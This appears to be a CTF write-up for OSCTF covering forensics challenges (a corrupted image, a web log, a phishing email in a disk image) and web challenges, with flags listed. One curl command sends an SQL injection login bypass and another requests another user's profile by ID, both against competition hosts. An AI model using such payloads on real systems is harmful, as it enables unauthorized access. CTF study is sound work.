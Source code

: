 ```yaml
---
title: OSCTF - Writeup
time: 2024-06-24 12:00:00
categories: [forensics, web]
tags: []
image: /assets/posts/osctf/icon.png
---
```


A writeup for OSCTF.

# Forensics

## The Lost Image Mystery
Flag: `OSCTF{W0ah_F1l3_h34D3r5}`

In the bustling city of Cyberville, a crucial image file has been corrupted, and it's up to you, a budding digital forensics expert, to recover it. The file appears to be damaged, can you recover the contents of the file?

```
$ xxd image.png | head
00000000: d8e0 0049 4600 0101 0000 0100 0100 00ff  ...IF...........
00000010: e201 d849 4343 5f50 524f 4649 4c45 0001  ...ICC_PROFILE..
00000020: 0100 0001 c800 0000 0004 3000 006d 6e74  ..........0..mnt
00000030: 7252 4742 2058 595a 2007 e000 0100 0100  rRGB XYZ .......
00000040: 0000 0000 0061 6373 7000 0000 0000 0000  .....acsp.......
00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000060: 0000 0000 0100 00f6 d600 0100 0000 00d3  ................
00000070: 2d00 0000 0000 0000 0000 0000 0000 0000  -...............
00000080: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000090: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

## The Hidden Soundwave
Flag: `OSCTF{M3s54g3_1nt3Rc3p7eD}`

We've intercepted some signals which is allegedly transmitted by aliens...? Do aliens listen to Alan Walker? I don't know, it's up to you to understand but we are sure there's something hidden in this song and we need to decrypt it!

[insert photo]

## Mysterious Website Incident
Flag: `OSCTF{1_c4N_L0g!}`

In the heart of Cyber City, a renowned e-commerce website has reported suspicious activity on its servers. As a rookie digital investigator, you've been called in to uncover the truth behind this incident. Your journey begins with examining the server's records, searching for clues that could shed light on what transpired.

```
265 192.168.1.1 - - [14/Jun/2024:07:47:14 +0000] "DELETE /index.html HTTP/1.1" 404 1477 "http://test.com" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
266 192.168.1.2 - - [14/Jun/2024:07:47:14 +0000] "POST /submit_form HTTP/1.0" 200 459 "http://localhost" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
267 my_secret :D - - [14/Jun/2024:07:47:14 +0000] "GET https://drive.google.com/file/d/15IwD7QiSKtvmW7XG2gYkdnwW0bxXBgdj/view?usp=drive_link HTTP/1.0" 200 3625 "http://test.com" "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
268 192.168.1.2 - - [14/Jun/2024:07:47:14 +0000] "POST /robots.txt HTTP/1.1" 200 2385 "http://test.com" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
269 192.168.1.3 - - [14/Jun/2024:07:47:14 +0000] "GET /submit_form HTTP/1.1" 500 3247 "http://test.com" "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"
```

```
https://drive.google.com/file/d/15IwD7QiSKtvmW7XG2gYkdnwW0bxXBgdj/view?usp=drive_link
```

## Cyber Heist Conspiracy
Flag: `OSCTF{Pr0_W1Th_PC4Ps}`

In the heart of Silicon City, rumors swirl about a sophisticated cyber heist orchestrated through covert network channels. As a novice cyber investigator, you've been tasked with analyzing a mysterious file recovered from the scene of the digital crime.

## Seele Vellorei
Flag: `OSCTF{V3l10n4_1s_Gr43t}`

Seele Vollerei is an orphaned girl in Cocolia’s Orphanage. But the tragic event in her past made that she was gone forever, until then she returned like a mysterious butterfly. How is this related to the challenge though? You figure out for youself ;)

```
$ unzip SeeleVollerei.docx
Archive:  SeeleVollerei.docx
  inflating: [Content_Types].xml
  inflating: _rels/.rels
  inflating: word/document.xml
  inflating: word/_rels/document.xml.rels
 extracting: word/media/image1.png
  inflating: word/theme/theme1.xml
  inflating: word/settings.xml
  inflating: word/styles.xml
  inflating: word/webSettings.xml
  inflating: word/fontTable.xml
  inflating: docProps/core.xml
  inflating: docProps/app.xml

$ grep -rioE "osctf{\w+}"
word/document.xml:OSCTF{V3l10n4_1s_Gr43t}
```

## FOR101
Flag: `OSCTF{JU5t_n0rmal_eXE1_f113_w1th_C2_1n51De}`

An employee of MDSV company received a lottery winning letter. Because of greed, that employee opened that email and as a result, the company's computer was attacked. Luckily, the SOC department was able to capture the disk image and blockade that employee's computer. Your task is to conduct investigation, analysis and retrieve the flag.

Challenge file: **https://drive.google.com/file/d/1PF9DFZoNhb61bs3k0kcuyFEe5U_kA7LR/view**

Navigating through directories, I found an interesting eml file. The file is located at **/Users/Administrator/Downloads/Outlook Files**.

```
$head -n 25 Notifications.eml
Content-Type: multipart/mixed; boundary="===============1582594319=="
MIME-Version: 1.0
From: mmb1234@example.com
To: maikanizumi@example.com
Subject: Credit Card For Free

--===============1582594319==
Content-Type: text/plain; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit

You have won $10,000. I have sent you a credit card containing your bonus. Because this is a gift of great value, it will be kept confidential. Password is CreditsCardForFree
--===============1582594319==
Content-Type: application/octet-stream
MIME-Version: 1.0
Content-Transfer-Encoding: base64
Content-Disposition: attachment; filename="CreditsCard.zip"

UEsDBBQACQBjAHqQ6Fgjz4wWgd0FAATrBQAOAAsAQ3JlZGl0czY5Lnhsc20BmQcAAQBBRQMIALCJ
haRRXhXXhdwy9Ql6IXQgIO4ovBCASOLtQUM0nDO2NjbgjTdHMrqMwlFb88f474QaR6UAZ8wLmO85
Mvn4RQUoXFP3ry4BGkRi1V8Tmf7baZeBJKYHC7EmLhqkWtzsduispUUr+9bSgLngwvZi3GTJVFrb
<...>
```
We can see a message with the password and a long base64 code. Putting the code in CyberChef, it detected that the code is a PKZIP file. So I decoded the code and downloaded the file.

```
$ 7z x for101.zip -p 'CreditsCardForFree'

7-Zip 23.01 (x64) : Copyright (c) 1999-2023 Igor Pavlov : 2023-06-20
 64-bit locale=en_US.UTF-8 Threads:32 OPEN_MAX:1024

Scanning the drive for archives:
1 file, 384585 bytes (376 KiB)

Extracting archive: for101.zip
--
Path = for101.zip
Type = zip
Physical Size = 384585


No files to process
Everything is Ok

Files: 0
Size:       0
Compressed: **384585**
```

# Web

## Introspection
Flag: `OSCTF{Cr4zY_In5P3c71On}`

Welcome to the Secret Agents Portal. Find the flag hidden in the secrets of the Universe!!!

```
$ curl -s http://34.16.207.52:5134/script.js | grep -oiE osctf{.+}
OSCTF{Cr4zY_In5P3c71On}
```

## Style Query Listing...?

Flag: `OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}`
pfft.. Listen, I've gained access to this login portal but I'm not able to log in. The admins are surely hiding something from the public, but... I don't understand what. Here take the link and be quiet, don't share it with anyone

```
$ curl -sL http://34.16.207.52:3635/login -d "username=admin&password=%27+OR+1%3D1--" | grep -oiE osctf{.+}
OSCTF{D1r3ct0RY_BrU7t1nG_4nD_SQL}
```

## Indoor WebApp
Flag: `OSCTF{1nd00r_M4dE_n0_5enS3}`

The production of this application has been completely indoor so that no corona virus spreads, but that's an old talk right?

```
$ curl -s http://34.16.207.52:2546/profile?user_id=2 | grep -oiE osctf{.+}
OSCTF{1nd00r_M4dE_n0_5enS3}
```
